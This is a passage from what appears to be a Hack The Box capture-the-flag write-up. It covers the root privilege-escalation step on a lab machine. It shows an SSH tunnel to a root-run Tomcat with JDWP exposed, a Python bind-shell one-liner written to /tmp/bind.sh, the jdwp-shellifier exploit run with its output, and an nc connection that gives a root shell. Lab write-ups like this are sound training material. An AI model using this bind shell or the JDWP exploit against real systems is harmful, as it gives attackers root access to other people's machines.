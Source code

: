 ```console
tcp                 TIME-WAIT                0                     0                                       [::ffff:127.0.0.1]:8080                                  [::ffff:127.0.0.1]:3883
```

then an ssh tunnel with ```ssh -L 8080:localhost:8080 alexa@10.10.10.163``` was run to know which service it was, resulting in tomcat:

{% include figure image_path="/assets/images/htb/ai/tomcat-tunnel.png" %}

Checked the process runing, is possible to see that tomcat is being executed with root user and [JDWP](https://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html) enabled:

```console
root       3875  5.5  5.8 3141684 118248 ?      Sl   21:02   0:05 /usr/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n -Dignore.endorsed.dirs= -classpath /opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/apache-tomcat-9.0.27/bin/tomcat-juli.jar -Dcatalina.base=/opt/apache-tomcat-9.0.27 -Dcatalina.home=/opt/apache-tomcat-9.0.27 -Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp org.apache.catalina.startup.Bootstrap start
```

A quick search google gives a result the next [exploit](https://www.exploit-db.com/exploits/46501)

Then to use that exploit a ```bind.sh``` is created under ```/tmp``` with the next code:

```python
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```

So, it will bind a shell in the port 2222, after it the exploit is run using that script:

```console
alexa@AI:~$ ./jdwp-shellifier.py -t 127.0.0.1 -p 8000 --break-on 'java.lang.String.indexOf' --cmd /tmp/bind.sh 
[+] Targeting '127.0.0.1:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=650
[+] Found Runtime.getRuntime(): id=7f9080006b60
[+] Created break event id=2
[+] Waiting for an event on 'java.lang.String.indexOf'
[+] Received matching event from thread 0x6ed
[+] Selected payload '/tmp/bind.sh'
[+] Command string object created id:6ee
[+] Runtime.getRuntime() returned context id:0x6ef
[+] found Runtime.exec(): id=7f9080006b98
[+] Runtime.exec() successful, retId=6f0
[!] Command successfully executed
```

Done that, is tried to get a connection to the server with nc to the server in port specified in ```bind.sh``` getting root access with it:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/ai# nc -v 10.10.10.163 2222
ai.lnx.htb [10.10.10.163] 2222 (?) open
bash: cannot set terminal process group (6086): Inappropriate ioctl for device
bash: no job control in this shell
root@AI:~# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

